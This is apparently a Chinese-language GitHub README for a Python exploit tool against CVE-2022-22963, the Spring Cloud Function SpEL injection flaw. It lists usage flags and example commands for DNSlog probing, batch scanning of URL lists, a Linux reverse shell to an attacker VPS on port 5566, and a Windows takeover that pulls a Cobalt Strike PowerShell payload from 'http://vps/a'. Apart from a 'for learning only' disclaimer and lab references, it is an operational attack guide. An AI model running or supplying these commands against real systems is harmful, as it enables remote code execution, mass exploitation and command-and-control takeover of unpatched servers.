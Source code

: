 # Spring Cloud Function SPEL表达式注入漏洞（CVE-2022-22963）

>Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。
>
>Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。
>
>影响范围：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2
>
>**脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation(安装模块)

```shell
pip3 install -r requirements.txt	
```

## 2.Usage(用法)

`python3 spring-cloud-function-rce.py -h`

![image-20220414184058525](README.assets/image-20220414184058525.png)

>-u 指定单个url进行dnslog测试
>
>-e 指定反弹shell模式
>
>-s 指定目标主机操作系统,默认linux,参数为win/linux **配合-i和-c参数使用**

## 3.example(使用案例)

### 3.1 单个url测试

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/"`

![image-20220414184202055](README.assets/image-20220414184202055.png)

### 3.2 批量url测试

`python3 spring-cloud-function-rce.py -f "urls.txt"`

![image-20220414184424640](README.assets/image-20220414184424640.png)

>- 123.58.236.76:47874是vulfocus的docker靶场，没有安装nslookup命令，所以dnslog测试失败
>- 批量url地址一定要是网站根目录，http://192.168.50.222:8080/ 是本地搭建靶场的根目录，加了test目录会导致poc失效

### 3.3 linux靶机getshell

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/" -e -i "vps的ip地址:5566"`

![image-20220414185231029](README.assets/image-20220414185231029.png)

### 3.4 windows靶机getshell

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/" -e -s "win" -c "http://vps/a"`

> -c指定cs生成powershell上线代码的地址，必须配合 -s "win"使用,-c 选项必须在windows下执行脚本，脚本会调用powershell进行poc编码

![image-20220414185711222](README.assets/image-20220414185711222.png)

![image-20220414190020294](README.assets/image-20220414190020294.png)

## 4. 靶场

### 4.1 idea自行搭建

### [参考地址](https://www.anquanke.com/post/id/271167)

### 4.2 docker靶场

[vulfocus](http://vulfocus.io/)

![image-20220414190509578](README.assets/image-20220414190509578.png)